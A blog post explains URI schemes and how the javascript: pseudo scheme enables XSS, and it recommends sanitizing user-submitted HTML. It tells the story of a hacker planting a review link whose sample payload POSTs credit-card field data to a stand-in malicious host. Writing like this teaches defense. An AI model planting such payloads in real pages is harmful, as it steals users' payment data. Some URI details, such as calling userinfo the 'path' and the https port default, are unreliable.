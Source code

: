 ```yaml
---
layout: post
title: Sanitize JavaScript Scheme to Prevent XSS
---
```


Outside of the most commonly known and supported URI schemes (http:// and https://), most modern web browsers support a full roster of alternate and legacy URI schemes.

Here are some alternate URI schemes you may be familiar with already:

 - ftp://
 - mailto:
 - file://

And a few you probably haven't put much thought into, or didn't know existed:

 - javascript:
 - gopher://
 - news:
 - wais://
 - nntp://

URI schemes are the combination of a few separate parts, designed by third parties and adopted into major web browsers. All URI schemes have the following structure:

`and://my:stuff@test.com:8080/location/sublocation?key=things&stuff=keys#section2`

Lets break this down into separate pieces before discussing where protocols can be a security issue.

`and://` - This is where the scheme is declared, and the browser first checks this in order to determine what to do with the following strings.

`my:stuff` - This is the "path" often used to express a hierarchy of data. You don't see this in very many URI's, but in older systems a scheme might declare username and password for an email as `joe:mypassword3`.

`@test.com` - Is the host, you see this most frequently in http:// and https:// URI's. This is used to identify a relevant location.

`:8080` - Here we declare the port. All websites and servers require a port to be declared, but you don't see it often in http:// or https:// URI's because browsers default to port 80 (invisibly) if no other port is declared in the URI.

`location/sublocation` - Refers to a file location on the host.

`?key=things&things=keys` - The query, used to pass through conditional data in the URI as if it was a variable.

`#section` - The URI fragment, also used to pass through conditional data. Typically used to preserve state on the client.

Why do we need to worry about URI Schemes?
------------------------------------------

As you probably have guessed, the URI scheme is so flexible that many companies have taken advantage of it to produce their own schemes which have than been adopted into web browsers. Many of these schemes are still supported for legacy reasons, but have not been updated in years or even decades.

The most notorious of this, is the "**JavaScript Pseudo Scheme**" - a scheme that allows you to pass through a string of JavaScript which will be executed in it's own context but with full access to the current DOM and all of it's nodes.

You've probably seen this in code before, but not recognized it. The most common use case is:

`<a href="javascript:void(0);">click me</a>`

This trick has been used to create links that did not adhere to normal link behavior in many browsers. Really what's happening is the link is executing the statement `void(0);` which returns `undefined`. Typically a browser will reload the page if a link to itself is clicked, but if the link returns undefined the browser will halt execution. Now you have a link to the current page which can call other JavaScript without causing a page reload.

This use case is generally harmless.

Now lets consider another use case, which you can imagine is usable on many insecure websites and apps. Since you have access to arbitrary JavaScript code execution, you can traverse the DOM tree and collect whatever data you desire. 

Consider the following scenario:


----------

Jon is a hacker who is targeting a popular eCommerce site called BuyStuffNow.

BuyStuffNow is like Amazon, except it allows you to buy from one product page without ever leaving (lots of apps do this). The order process goes like this: click a product -> type in credit card -> click purchase to complete transaction.

Below the product is a comments section, where guests can comment on the item and give reviews / warnings to each other. 

Jon devises a plan to craft a malicious link to put in his BuyStuffNow comment. He writes a legitimate review, with a legitimate link:

"Hi friends. IF YOU ARE GOING TO BUY THIS PLEASE READ THIS REVIEW FIRST. I used the product for three hours, than **this** happened."

The link will be constructed as such:

`
<a href="javascript:console.log(new XMLHttpRequest().open('POST',
'http://badwebsite.com').send(document.querySelector('creditCardInfo'));
window.open('http://www.legitreview.com/product');">this</a>`

To a uneducated user, this is simply a link to a legitimate review on another website. The user may enter their credit card information and than decide to read the review - in which case their credit card information is sent to a malicious web server and stored for malicious uses.

----------

Because the JavaScript pseudo scheme allows arbitrary JavaScript execution with full access to current DOM nodes, any sensitive data on the page can be recorded and sent elsewhere. This is only one possible scenario where the JavaScript pseudo scheme can present an issue. It could also be used for injecting an entire page of scripts into the current tree or replacing the current DOM with an iframe.

In order to prevent this, we need to ensure wherever user submitted HTML is rendered we are sanitizing or purifying the input. Remove any instances of the JavaScript pseudo scheme so they don't have any capacity for creating malicious links or executing malicious JavaScript. Alternatively, create your own markup language or use an existing one like markdown to better ensure your user's security.

